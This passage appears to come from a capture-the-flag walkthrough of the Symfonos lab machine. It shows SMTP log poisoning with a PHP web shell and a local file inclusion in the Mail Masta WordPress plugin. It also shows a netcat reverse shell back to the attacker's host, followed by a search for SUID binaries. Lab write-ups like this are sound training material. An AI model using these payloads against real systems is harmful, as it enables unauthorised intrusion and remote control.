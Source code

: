     telnet 10.0.0.31 25

    Status: 220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
    Sent: mail from: <hacker>
    Status: 250 2.1.0 Ok
    Sent: rcpt to: helios@symfonos.localdomain
    Status: 250 2.1.5 Ok
    Sent: data
    Status: 354 End data with <CR><LF>.<CR><LF>
    Sent: <?php system($_GET['c']); ?>
    Sent: .
    Status: 250 2.0.0 Ok: queued as 9A174408A4

Going to http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios we can read our sent email.

By setting a listener on our local machine we can get a reverse shell on the remote machine.

### **Local machine:**

    nc -lnvp 4444

    ![image](https://user-images.githubusercontent.com/76552238/158072352-e35b1621-ad8a-4ba0-a3ee-8d03cafae669.png)

>

### **Remote Machine:** 

    symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc -e /bin/bash 10.0.0.27 4444

We are logged in as the user 'helios'.

![image](https://user-images.githubusercontent.com/76552238/158072406-1f4933e7-fd4d-4469-8afe-34e84be83d6d.png)

Going to the home folder there is only the share that we already enumerated on Samba.

![image](https://user-images.githubusercontent.com/76552238/158072432-d3490c61-2cb3-4514-b9e6-7813884b51fc.png)

![image](https://user-images.githubusercontent.com/76552238/158072444-0c45aa8a-ade8-4716-844b-d731fdbdf33c.png)

Let's try to find SUID files.

    find / -perm /4000 2> /dev/null

![image](https://user-images.githubusercontent.com/76552238/158072467-c93be0a2-488c-488a-96a1-44f6dfc2ea77.png)

There is one odd file ---> /opt/statuscheck.  

    /opt/statuscheck

    HTTP/1.1 200 OK
    Date: Thu, 03 Feb 2022 16:51:56 GMT
    Server: Apache/2.4.25 (Debian)
    Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
    ETag: "148-58c6b9bb3bc5b"
    Accept-Ranges: bytes
    Content-Length: 328
    Vary: Accept-Encoding
    Content-Type: text/html
